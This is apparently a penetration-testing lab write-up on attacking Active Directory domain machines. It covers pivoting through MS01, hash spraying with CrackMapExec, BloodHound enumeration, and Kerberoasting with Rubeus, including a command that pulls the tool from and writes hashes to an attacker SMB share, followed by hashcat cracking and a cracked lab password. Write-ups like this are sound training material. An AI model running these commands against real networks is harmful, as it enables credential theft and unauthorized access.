




---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Domain Machines

[`MS01`](../external-machines/ms01.md) serves as the pivot point into the network. I set up a ligolo-ng agent on the machine and run it from the SYSTEM shell I obtained.

## Enumeration

### Credential Spray

My first step is to spray `celia.almeda`'s hash around the internal network:

<figure><figcaption><p>Results of CME on SMB</p></figcaption></figure>

I run CME for WinRM and find I have access to [`MS02`](ms02.md) as `celia.almeda` as well.

### Domain Scanning Tools

#### SharpHound

I start with SharpHound which I run from `MS01`.

#### Certify

I run Certify but it seems there are no enterprise CAs configured so AD CS abuse is out:

<figure><figcaption><p>Certify results</p></figcaption></figure>

## Lateral Movement

### Kerberoast

The BloodHound output reveals 2 Kerberoastable users. I run Rubeus on `MS01` to grab their hashes:


```
\\192.168.45.154\tools\x64\Rubeus.exe kerberoast /tgtdeleg /outfile:\\192.168.45.154\tools\data\hashes.kerberoast
```


<figure><figcaption><p>Kerberoasted</p></figcaption></figure>

#### Cracking Hashes

Hashcat:


```bash
hashcat -m 13100 -o cracked.kerberoast hashes.kerberoast /usr/share/wordlists/rockyou.txt
```


Only one cracks, `web_svc` cracks to `Diamond1`. I validate it with CME as is standard:

<figure><figcaption></figcaption></figure>


